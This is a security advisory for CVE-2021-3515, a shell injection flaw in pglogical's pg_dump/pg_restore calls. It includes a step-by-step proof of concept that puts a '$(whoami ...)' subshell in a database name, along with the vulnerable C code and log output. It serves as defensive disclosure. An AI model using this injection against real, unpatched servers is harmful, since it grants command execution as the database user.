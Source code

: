 ```yaml
---
title: '2ndQuadrant: pglogical pg_dump/pg_restore remote code execution'
severity: Moderate
ghsa_id: GHSA-wcv2-vxw9-23hx
cve_id: CVE-2021-3515
weaknesses: []
products:
- ecosystem: ''
  package_name: pglogical
  affected_versions: <2.3.4
  patched_versions: 2.3.4
cvss: null
credits: []
---
```


### Summary
Shell injection vulnerability when creating a subscription that utilizes synchronize_structure when calling pglogical.create_subscription. The underlying vulnerability is the database name is used in a string value that is passed to a call to system without any sanitization at https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L120 and 
https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L152.

### Severity
**Medium**
A user that was granted USAGE on the pglogical schema would be able to execute shell commands as the user running postgresql.

A scenario where an unprivileged user could be granted USAGE on pglogical schema for arbitrary databases could be in migrating between database providers. 

### Proof of Concept
#### Setup

This setup contains 2 VMs both running Postgresql-11. I have built pglogical 2.3.3 from source. 

Both instances follow the "Quick Setup" guide:
```
wal_level = 'logical'
max_worker_processes = 10   # one per database needed on provider node
                            # one per node needed on subscriber node
max_replication_slots = 10  # one per node needed on provider node
max_wal_senders = 10        # one per node needed on provider node
shared_preload_libraries = 'pglogical'
```

I've enabled the instances to talk to the network
```
listen_addresses = '*' 
```
With the following addition to pg_hba.conf 
```
host    all             all             all                     md5
```
#### Reproduction 
For the initial setup we'll be using the Superuser postgres 
```sql
ALTER USER postgres WITH PASSWORD <pass>
```
Both will create a database that contains the payload to execute we'll use a simple example of writing to a file in /tmp
```sql
CREATE DATABASE "$(whoami > /tmp/whoami.txt)";
```
Enable pglogical in the newly created database on both
```sql
\c "$(whoami > /tmp/whoami.txt)"
CREATE EXTENSION pglogical;
```
On the subscriber side we'll create a new user and grant them usage on pglogical
```sql
CREATE USER test_user WITH PASSWORD <pass>;
GRANT USAGE on SCHEMA pglogical TO test_user;
```
Setup the provider node on the provider instance
```sql
SELECT pglogical.create_node(node_name := 'test_provider',
    dsn := $$host=<provider_ip> port=<provider_port> user=postgres password=<pass> dbname='$(whoami > /tmp/whoami.txt)'$$);
```
On the subscribe instance setup the node
```sql
SELECT pglogical.create_node(
    node_name := 'test_sub',
    dsn := $$host=<sub_ip> port=<sub_port> user=test_user password=<pass> dbname='$(whoami > /tmp/whoami.txt)'$$);
```
Create a subscription, ensuring you set `synchronize_structure := TRUE` which will hit the vulnerable path. 

To trigger the vulnerability at pglogical_sync.c:120 include the payload in the subscription’s dbname. To trigger the one at pglogical_sync.c:152 use a normal dbname. 
```sql
-- Will Trigger shell injection at pglogical_sync.c:120
SELECT pglogical.create_subscription(subscription_name := 'test_sub',
    provider_dsn := $$host=<provier_ip> port=<provider_port> user=postgres password=<pass> dbname='$(whoami > /tmp/whoami.txt)'$$,
    synchronize_structure := TRUE);

-- Will trigger the shell injection at pglogical_sync.c:152
SELECT pglogical.create_subscription(subscription_name := 'test_sub',
    provider_dsn := $$host=<provier_ip> port=<provider_port> user=postgres password=<pass> dbname=postgres'$$,
    synchronize_structure := TRUE);
```
The command should execute. We can confirm this by looking for the file. 
```
$ cat /tmp/whoami.txt 
postgres
```
### Further Analysis
When syncing occurs we see that dump_structure is executed if the sync type is structure or full. We satisfy this requirement when setting syncronize_structure to TRUE when creating a subscription.

[pglogical_sync.c:810](https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L810)
```c
if (SyncKindStructure(sync->kind))
				{
    ...snip...
					/* Dump structure to temp storage. */
					dump_structure(sub, tmpfile, snapshot);
```
Within dump_structure the user provided dsn is used to craft a string that will
be passed to system

[pglogical_sync.c:116](https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L116)
```c
	appendStringInfo(&command, "\"%s\" --snapshot=\"%s\" %s -s -F c -f \"%s\" \"%s\"",
					 pg_dump, snapshot, schema_filter.data, destfile,
					 sub->origin_if->dsn);

	res = system(command.data);
```
Looking at the logs we can see what was executed

/var/log/postgresql/postgresql-11-main.log
```
2021-02-05 18:35:43.233 UTC [26568] [unknown]@$(whoami > /tmp/whoami.txt) ERROR:
could not execute command ""/usr/lib/postgresql/11/bin/pg_dump"
--snapshot="0000000E-0000000D-1" -N pglogical -s -F c -f
"/tmp/pglogical-26568.dump" "host=10.128.0.49 port=5432 user=postgres password=a0de0238d8d4277c8efb97221972d48d359231c45152c73a1b24021520c15d69 dbname='$(whoami > /tmp/whoami.txt)'""
```

Our subshell is still executed even though it's in single quotes, because it's wrapped in double quotes. 

Similar to dump_structure, restore_structure has the same vulnerable pattern. 

[pglogical_sync.c:148](https://github.com/2ndQuadrant/pglogical/blob/451d5a5cc8b8bacb50fd6c55bbbd896ebbdc619f/pglogical_sync.c#L148)
```c
	appendStringInfo(&command,
					 "\"%s\" --section=\"%s\" --exit-on-error -1 -d \"%s\" \"%s\"",
					 pg_restore, section, sub->target_if->dsn, srcfile);
```
/var/log/postgresql/postgresql-11-main.log
```
2021-02-08 21:59:45.544 UTC [21153] [unknown]@$(whoami > /tmp/whoami.txt) ERROR:  could not execute command ""/usr/lib/postgresql/11/bin/pg_restore" --section=
"pre-data" --exit-on-error -1 -d "host=10.128.15.199 port=5432 user=test_user password=64eca3f8451089e4711b9fe0c6c24d264cfa11ff24c88f0f52067e5f223e140c dbname='$(whoami > /tmp/whoami.txt)'" "/tmp/pglogical-21153.dump"
```

### Timeline
**Date reported**: 2021-03-08
**Date fixed**: 2021-05-23
**Date disclosed**: 2021-06-07

### Credits
Pedro Gallegos